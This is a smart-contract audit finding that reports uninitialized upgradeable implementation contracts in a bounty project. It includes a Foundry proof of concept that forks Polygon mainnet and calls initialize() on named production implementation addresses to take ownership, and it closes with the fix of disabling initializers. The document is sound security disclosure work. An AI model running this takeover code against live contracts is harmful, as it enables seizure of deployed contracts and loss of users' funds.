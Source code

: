 7siech

medium

# Medium risk: Project deploys uninitialized implementation contracts

## Summary

The project uses a proxy pattern to make some of the contracts upgradable.  

## Vulnerability Detail

Implementation contracts don't currently disable the initializers in their constructor as per OZ recommendation.

Currently vulnerable contracts deployed on mainnet are `DepositManagerV1` and `BountyV1`. Both contracts are also vulnerable in the audit code base in addition to `TieredFixedBountyV1`, `TieredPercentageBountyV1`, `AtomicBountyV1`, `OngoingBountyV1`.

While other contracts such as `ClaimManagerV1` and `OpenQV1` are not directly vulnerable due to the `onlyProxy` modifier, it is recommended to disable the initializers in the constructor regardless. 

## Impact

Potential security risks can be introduced with future upgrades such as destruction of the implementation contracts permanently disabling upgrading and thus loss of funds.

## Code Snippet

POC demonstrating taking over currently deployed production contracts on mainnet -
https://gist.github.com/alpeware/45653ce76828d22384a239e54df65341#file-mainnetexploit-t-sol

```solidity
contract MainnetExploit is Test {

  function setUp() public {
    // fork 
    uint256 forkId = vm.createSelectFork(vm.rpcUrl("polygon"));
    vm.selectFork(forkId);
  }

  // demonstrates taking over the BountyV1 implementation contract in prod
  function testTakeOverBounty() public {
    bytes memory data = abi.encode(false, address(0x01), uint256(0));
    address imp = 0x4E60f6CaCf4b3dd274Af8E4aABC45C92667D3681;
    BountyV1 b = BountyV1(payable(imp));
    b.initialize(
      "bountyid",
      address(this),
      "org",
      address(this),
      address(this),
      address(this),
      OpenQDefinitions.InitOperation({operationType: 0, data: data})
    );
    assertEq(b.claimManager(), address(this));
  }

  function testTakeOverDepositManager() public {
    address imp = 0x825654aa738Ca2132a6652756D03B090660f08b1;
    DepositManagerV1 dm = DepositManagerV1(payable(imp));
    dm.initialize();
    //dm.upgradeTo(address(this));
    //dm.upgradeToAndCall(address(this), "");
    assertEq(dm.owner(), address(this));
  }
}
```

## Tool used

- Forgery
- Manual Review

## Recommendation

Follow the recommendation [1] and disable the initializers in the constructor of all implementation contracts instead of leaving it empty -

```solidity
 constructor() {
     _disableInitializers();
 }
```
[1] https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/proxy/utils/Initializable.sol#L43